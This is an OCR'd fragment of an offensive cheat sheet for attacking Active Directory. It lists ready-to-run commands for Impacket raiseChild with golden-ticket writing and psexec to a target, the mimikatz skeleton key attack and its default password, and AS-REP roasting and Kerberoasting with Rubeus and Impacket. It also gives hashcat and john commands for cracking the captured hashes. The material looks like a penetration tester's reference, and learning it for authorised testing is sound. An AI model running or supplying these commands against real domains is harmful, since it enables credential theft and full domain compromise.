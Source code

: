 Automatically
impacket-raiseChild [domain]/[user]:[password]
- -w [ticket] ⇒ write out golden ticket
    
- -target-exec [host] ⇒ psexec to host after compromise
    
  
# Skeleton Key
used to access any SMB share with the same password
- misc::skeleton
    
- default password is mimikatz
    
- see [Interacting with SMB](https://docs.google.com/document/d/1MVC5l0cuEw2p5pXNvvb1kXyee-IxitJW7X_eibU_4B0/edit#heading=h.vexfc5fk3uaj) above
    
  
# AS-REP Roasting
  
### Obtaining Hash
  
Rubeus
rubeus asreproast /format:[hashcat/john] /outfile:hashes.txt
  
Impacket
impacket-GetNPUsers [domain]/[user]:[password]
- -dc-ip [DC]
    
- -hashes [hash]
    
- without creds (don’t provide [user]:[password]) ⇒ -usersfile [usernames]
    
- -request -format [hashcat/john] -outputfile hashes.txt
    
  
### Cracking
hashcat -m 18200 hashes.txt [wordlist]
john hashes.txt --wordlist [wordlist]
  
# Kerberoasting (TGS-REP Roasting)
Note: requires access to any user account on the domain
  
### Obtaining Hash
  
Rubeus
rubeus kerberoast /outfile:hashes.txt
  
Impacket
impacket-GetUserSPNs [domain]/[user]:[password]
- -dc-ip [DC]
    
- -hashes [hash]
    
- -request-user [SPN]
    